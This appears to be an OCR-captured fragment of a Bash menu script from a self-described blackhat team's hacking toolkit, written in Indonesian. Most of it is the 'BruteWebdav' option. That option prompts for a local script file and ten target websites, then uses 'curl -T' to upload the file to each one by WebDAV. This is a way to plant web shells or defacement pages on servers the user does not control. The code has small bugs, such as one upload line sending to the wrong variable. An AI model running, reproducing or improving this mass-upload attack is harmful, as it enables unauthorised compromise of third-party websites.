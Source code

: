 if [ $bro = 45 ] || [ $bro = 45 ]
then
clear
cowsay -f sheep.cow "MrB4J1N64N" | lolcat
figlet "Mr.B4J1N64N" | lolcat
sleep 1
cd
cd module
python2 katoolin.py
fi

if [ $bro = 46 ] || [ $bro = 46 ]
then
clear
cowsay -f kiss.cow "MrB4J1N64N" | lolcat
figlet "Mr.B4J1N64N" | lolcat
sleep 1
cd module
python2 r.py
fi

if [ $bro = 47 ] || [ $bro = 47 ]
then
clear
toilet -f standard -F gay "BruteWebdav"
echo "\033[32;1mauthor: Mr.B4J1N64N"
echo "\033[33;1mTeam: Darkness Cyber Team"
echo "\033[34;1mIndonesia Security Lite"
echo "\033[32;1mJawaBarat Blackhat Army"
echo "Masukan nama script"
read -p "[=======>" script
echo "\033[32;1m"
echo "Masukan Web Target Ke1"
read -p "[=======>" Ke1
curl -T /storage/emulated/0/$script $Ke1
echo "\033[32;1m" "Masukan Web Target Ke2 "
read -p "[=======>" Ke2
curl -T /storage/emulated/0/$script $Ke2
echo "\033[32;1m" "Masukan Web Target Ke3"
read -p "[=======>" Ke3
curl -T /storage/emulated/0/$script $Ke3
echo "\033[32;1m" "Masukan Web Target Ke4"
read -p "[=======>" Ke4
curl -T /storage/emulated/0/$script $Ke5
echo "\033[32;1m" "Masukan Web Target Ke5"
read -p "[=======>" Ke5
curl -T /storage/emulated/0/$script $Ke5
echo "\033[32;1m" "Masukan Web Target Ke6"
read -p "[=======>" Ke6
curl -T /storage/emulated/0/$script $Ke6
echo "\033[32;1m" "Masukan Web Target Ke7"
read -p "[=======>" Ke7
curl -T /storage/emulated/0/$script $Ke7
echo "\033[32;1m" "Masukan Web Target Ke8"
read -p "[=======>" Ke8
curl -T /storage/emulated/0/$script $Ke8
echo "\033[32;1m" "Masukan Web Target Ke9"
read -p "[=======>" Ke9
curl -T /storage/emulated/0/$script $Ke9
echo "\033[32;1m" "Masukan Web Target Ke10"
read -p "[=======>" Ke10
curl -T /storage/emulated/0/$script $Ke10
sleep 1
echo "[<=====================SEDANG PROSES=====================>]"